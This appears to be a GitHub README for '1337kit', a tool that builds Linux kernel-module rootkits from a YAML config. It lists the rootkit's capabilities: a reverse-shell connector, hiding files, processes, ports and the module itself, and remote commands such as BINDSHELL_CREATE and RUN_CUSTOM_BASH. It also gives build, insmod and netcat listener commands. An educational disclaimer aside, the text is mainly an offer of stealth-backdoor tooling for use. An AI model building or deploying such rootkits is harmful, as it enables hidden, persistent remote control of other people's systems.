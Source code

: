 # 1337kit - LKM Rootkit Builder

```
 ████   ████████   ████████  ██████████ █████       ███   █████   
░░███  ███░░░░███ ███░░░░███░███░░░░███░░███       ░░░   ░░███    
 ░███ ░░░    ░███░░░    ░███░░░    ███  ░███ █████ ████  ███████  
 ░███    ██████░    ██████░       ███   ░███░░███ ░░███ ░░░███░   
 ░███   ░░░░░░███  ░░░░░░███     ███    ░██████░   ░███   ░███    
 ░███  ███   ░███ ███   ░███    ███     ░███░░███  ░███   ░███ ███
 █████░░████████ ░░████████    ███      ████ █████ █████  ░░█████ 
░░░░░  ░░░░░░░░   ░░░░░░░░    ░░░      ░░░░ ░░░░░ ░░░░░    ░░░░░  
LKM Rootkit Builder
```

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analytists and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector: 
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --config testfiles/config.yml
```
And rootkit.ko will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* hiding connections based on IP
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
